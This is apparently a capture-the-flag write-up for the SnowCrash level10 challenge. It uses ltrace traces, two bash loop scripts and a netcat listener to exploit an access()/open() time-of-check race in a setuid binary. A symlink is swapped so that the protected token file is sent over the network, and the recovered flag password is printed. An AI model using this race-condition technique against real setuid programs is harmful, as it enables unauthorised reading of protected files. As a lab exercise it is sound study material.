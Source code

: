 ```shell
level10@SnowCrash:~$ cat token 
cat: token: Permission denied
level10@SnowCrash:~$ ./level10 
./level10 file host
	sends file to host if you have access to it
level10@SnowCrash:~$ ltrace ./level10 
__libc_start_main(0x80486d4, 1, 0xbffff7f4, 0x8048970, 0x80489e0 <unfinished ...>
printf("%s file host\n\tsends file to ho"..., "./level10"./level10 file host
	sends file to host if you have access to it
) = 65
level10@SnowCrash:~$ echo "salut" > /tmp/test
level10@SnowCrash:~$ ./level10 /tmp/test 0.0.0.0
Connecting to 0.0.0.0:6969 .. Unable to connect to host 0.0.0.0
```

Okay, it seems like we need to provide a file for which we have the rights as a parameter and listen on port 6969. On another terminal, I do the following:

```shell
level10@SnowCrash:~$ nc -l 6969
```

Let me start over:
```shell
level10@SnowCrash:~$ ./level10 /tmp/test 0.0.0.0
Connecting to 0.0.0.0:6969 .. Connected!
```

And there you go:

```shell
level10@SnowCrash:~$ nc -l 6969
.*( )*.
salut
```

Now, it seems that we need to find a way to read the token from this executable.

Here is the execution trace of the executable using ltrace:

```shell
level10@SnowCrash:~$ ltrace ./level10 /tmp/test 0.0.0.0
__libc_start_main(0x80486d4, 3, 0xbffff7d4, 0x8048970, 0x80489e0 <unfinished ...>
access("/tmp/test", 4)                                = 0
printf("Connecting to %s:6969 .. ", "0.0.0.0")        = 30
fflush(0xb7fd1a20Connecting to 0.0.0.0:6969 .. )                                    = 0
socket(2, 1, 0)                                       = 3
inet_addr("0.0.0.0")                                  = NULL
htons(6969, 1, 0, 0, 0)                               = 14619
connect(3, 0xbffff71c, 16, 0, 0)                      = 0
write(3, ".*( )*.\n", 8)                              = 8
printf("Connected!\nSending file .. "Connected!
)                = 27
fflush(0xb7fd1a20Sending file .. )                                    = 0
open("/tmp/test", 0, 010)                             = 4
read(4, "salut\n", 4096)                              = 6
write(3, "salut\n", 6)                                = 6
puts("wrote file!"wrote file!
)                                   = 12
+++ exited (status 12) +++
```

In the first function we're looking at, we immediately come across this: https://security.stackexchange.com/questions/42659/how-is-using-acces-opening-a-security-hole

The man page for access() explains this:

```
Warning: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it. For this reason, the use of this system call should be avoided.
```

It appears that a race condition 'time-of-check, time-of-use' (TOCTOU) is possible.

"access() uses the real rather than effective uid and gid." https://stackoverflow.com/questions/7925177/access-security-hole


Let's test this method:

```
user executes program
program is setuid, immediately gets all privs of root
program checks file1 to ensure that user has access
file1 is a hardlink to file2, which user has access to
user changes file1 to hardlink to file3 (/etc/shadow or something like that)
program reads file1 and does something to it (print, convert, whatever)
user now has access to a file they shouldn't
```

So, I need a file for which I have read rights, like my /tmp/test for example. I will create a symbolic link from this file to /tmp/test2. The idea is to change this link between the execution of access() and open(), so that access() verifies that I have the right to open the file, and then open() can open the token.

I have created these two scripts in the `/tmp` directory:

```bash
level10@SnowCrash:/tmp$ cat exec.sh
#!/bin/bash

x=1

while [ $x -le 5000 ]
do
	bash /home/user/level10/level10 /tmp/1 0.0.0.0
	x=$(($x+1))
done
```

```bash
level10@SnowCrash:/tmp$ cat link.sh
x=1

while [ $x -le 5000 ]
        do
        ln -sf /home/user/level10/token /tmp/1
		ln -sf /tmp/2 /tmp/1
        x=$(($x+1))
done
```
exec.sh repeatedly launches the executable.
link.sh repeatedly changes the link of tmp/1 between a file for which it has the rights and the token.

There was an issue with the launch; nc only runs once, so I added -k to nc:

```
nc -lk 6969
```

Now, by running both scripts on two different terminals, I receive the password for flag10 multiple times!

```
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
salut
.*( )*.
salut
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
salut
.*( )*.
```
All that's left is to connect and use getflag.

Resources:

- https://security.stackexchange.com/questions/42659/how-is-using-acces-opening-a-security-hole
- https://vulncat.fortify.com/en/detail?id=desc.controlflow.cpp.file_access_race_condition
- https://stackoverflow.com/questions/7925177/access-security-hole
- https://samsclass.info/127/proj/E10.htm
